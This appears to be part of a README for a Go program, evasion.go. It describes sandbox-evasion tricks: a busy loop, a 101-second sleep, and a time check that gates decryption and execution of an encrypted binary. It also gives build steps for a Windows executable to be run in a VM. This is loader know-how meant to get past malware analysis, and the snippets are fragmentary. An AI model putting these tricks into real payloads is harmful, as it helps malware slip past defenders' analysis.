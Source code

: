 #### Example from evasion.go starting at ln 121:

```
	for i := 0; i < 10000001; i++ {
		_ = i
	}
```

**Time Check and Sleep for 101 Seconds:**

- The program should check the current system time, pause or sleep for exactly 101 seconds, and then check the time again to ensure that 101 seconds have passed. This could be a way to avoid detection by sandbox environments that analyze programs within a short time frame.

#### Example from evasion.go starting at ln 124:

```
	time.Sleep(time.Second*101)
```

**Conditional Execution:**

- If 101 seconds have not passed, the program should not decrypt the binary or execute it. This ensures that the program behaves differently in different environments, potentially avoiding detection in a controlled analysis environment.

#### Example from evasion.go starting at ln147:

```
var timeStarted = time.Now() // ln 100

func decryptFile(encryptedData []byte) ([]byte, error) { // ln 147 and below

    if time.Since(timeStarted) < time.Second*101 {
		return nil, fmt.Errorf("Time is less than 101 seconds")
	}
}
```

*Note: For the sake of testing and usability, the time in the evasion.go file has been adjusted to 3 seconds(time.Sleep(time.Second3) ln 124).*

## Usage:

#### 1. Clone repository and navigate to the evasion directory

#### 2. Build the Program:

**Compile the evasion.go file to create the evasion.exe executable:** 

- On linux: ```GOOS=windows GOARCH=amd64 go build -o evasion.exe```

- on windows: ```go build -o evasion.exe```

#### 3. Transfer the Program to the VM in your prefferd way
